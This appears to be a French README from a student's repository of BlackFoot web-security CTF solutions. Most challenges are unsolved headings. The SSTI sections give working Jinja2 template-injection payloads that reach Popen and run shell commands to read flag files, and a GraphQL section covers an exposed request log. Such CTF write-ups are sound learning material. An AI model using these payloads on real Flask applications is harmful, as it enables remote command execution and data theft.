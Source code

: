 # WebSecurity

Sujet du repo: [Resolutions des defis de securité web créé par BlackFoot](https://secu-web.blackfoot.dev)

## Open Field

### :x: Wordstress


## Graphql

### :white_circle: Confessions

Nom de la categorie: GraphQL -> inspection des requettes effectué.  
Le schema graphql est public.  
Exposition de la query **requestLog**, on peut y trouver la liste des requettes effectués et voir les hash demandés [cf DumpFile(/Graphql-Confessions/RequestLog.dump.json)](/Graphql-Confessions/RequestLog.dump.json).  
Dans [/Graphql-Confessions/RequestLog.23-05.json](/Graphql-Confessions/RequestLog.23-05.json) on trouve les requetes qui on été fait avant le debut du cours, le 23/05 (preparation du projet ?).  
Dans [/Graphql-Confessions/Hash.23-05.txt](/Graphql-Confessions/Hash.23-05.txt) on trouve la liste des hashs extraits des logs du 23/05.  
Apres inspection via la query **confession**, ils ont tous pour titre Flag, on peut donc supposer que le flag se trouve dans le messages de ces confessions.  
  
On a essayé:
  - [dcode sha256](https://www.dcode.fr/sha256-hash): rien trouvé
  - base64 to ascii: invalid
  - hex to ascii: invalid


## SSTI

### :heavy_check_mark: SSTI 1

Le nom de la category est SSTI (Server Side Template Injection).  
Le titre de la page est Flaaaasque, on peut donc conclure que le moteur utilisé est Flask.  
Apres test, on peut utiliser `{{8*8}}` pour tester et faire un calcul.  
En utilisant `{{config.items()}}` on peut obtenir la config du server.  
cf [/SSTI/SSTI_1/config.dump.txt](/SSTI/SSTI_1/config.dump.txt) un dump de la config du server.  
Flag trouvé: `('FLAG', 'BFS{WelC0m3_To_Th1s_F1rSt_PyTh0n_Vuln3rab1l1ty}')`

### :heavy_check_mark: SSTI 2

Aussi du Flask, donc on peut utiliser `{{8*8}}`.  
En utilisant `{{config.items()}}` on peut obtenir la config du server [cf config dump](/SSTI/SSTI_2/config.dump.txt) mais le flag ne s'y trouve pas.  
En utilisant `{{''.__class__.__mro__ [1].__subclasses__()}}` on peut recuperer la liste de class disponnibles [cf class dump](/SSTI/SSTI_2/class.dump.txt).  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[268]}}` permet de recuperer la class Popen.  
Utiliser la Popen nous permet d'utiliser cette commande: `{{ ''.__class__.__mro__ [1].__subclasses__()[268]('ls', shell=True,stdout=-1).communicate()}}`, ce qui nous renvoi `(b'app.py\nconfig.py\nflag.txt\nindex.html\n', None)`.  
On peut voir un fichier appelé flag.txt, pour l'afficher, on peut utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[268]('cat flag.txt', shell=True,stdout=-1).communicate()}}`, ce qui nous donne: `(b'BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}', None)`.  
On a donc trouvé le flag `BFS{w0w_1_C4n_R3ad_Fl4g_W1th_Pyth0n_SST1}`

### :white_circle: SSTI 3

Encore du Flask, on peut toujour utiliser `{{8*8}}`.  
En utilisant `{{config.items()}}` on peut obtenir la config du server [cf config dump](/SSTI/SSTI_3/config.dump.txt) mais le flag ne s'y trouve pas non plus.  
En utilisant `{{''.__class__.__mro__ [1].__subclasses__()}}` on peut recuperer la liste de class disponnibles [cf class dump](/SSTI/SSTI_3/class.dump.txt).  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[409]}}` permet de recuperer la class Popen.  
Utiliser la Popen nous permet d'utiliser cette commande: `{{ ''.__class__.__mro__ [1].__subclasses__()[409]('ls', shell=True,stdout=-1).communicate()}}`, ce qui nous renvoi `(b'app.py\nconfig.py\ngetFlag\nindex.html\n', None)`.  
Utiliser la commande `{{''.__class__.__mro__ [1].__subclasses__()[409]('cat getFlag', shell=True,stdout=-1).communicate()}}` nous donne le contenue du fichier [cf: getFlag](/SSTI/SSTI_3/getFlag).  
Le fichier [getFlag](/SSTI/SSTI_3/getFlag) semble etre un executable mais il ne veux pas se lancer.


### :white_circle: SSTI 4

Encore du Flask, on peut toujour utiliser `{{8*8}}`.  
En utilisant `{{config.items()}}` on peut obtenir la config du server [cf config dump](/SSTI/SSTI_4/config.dump.txt) mais le flag ne s'y trouve pas non plus.  
En utilisant `{{''.__class__.__mro__ [1].__subclasses__()}}` on peut recuperer la liste de class disponnibles [cf class dump](/SSTI/SSTI_4/class.dump.txt).  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[180]}}` permet de recuperer la class Popen.  
Utiliser la Popen nous permet d'utiliser cette commande: `{{ ''.__class__.__mro__ [1].__subclasses__()[180]('ls', shell=True,stdout=-1).communicate()}}`, ce qui nous renvoi `(b'Courage bunz <3\nFlag.txt\napp.py\nconfig.py\ndalek.py\ndocker-compose.yml\nindex.html\nindex.html.bak\n', None)`.  
Utiliser `{{ ''.__class__.__mro__ [1].__subclasses__()[180]('cat Flag.txt', shell=True,stdout=-1).communicate()}}` nous montre que le fichier Flag.txt est vide.  
Le fichier [docker-compose.yml](/SSTI/SSTI_4/docker-compose.yml) n'est pas vide.  

Suposition: Il est mentioné dans le docker-compose que le port n'a pas été fermé. Je suppose qu'il est possible de passer par le network de docker pour passer de la vm flask a la machine qui se trouve deriere et d'y trouver quelque chose

## SSRF

### :x: SSRF 1


## Obfuscation

### :x: OBF 100

### :x: SCRIPT_KIDDING


## XXE

### :x: XXE 1

### :x: XXE 2


## XSS

### :x: Whatsup

### :x: Whatsup2


## JWT

### :x: Mythique 1

### :x: Mythique 2

### :x: Mythique 3


## SQLI

### :x: Potionseller

### :x: Potionseller 2


## IFI

### :x: noprotection

### :x: filters

### :x: extprotect

### :x: remote


## Auth

### :x: Auth 50

### :x: Auth 100

### :x: Auth 200


## JS

### :x: b64js

### :x: JS200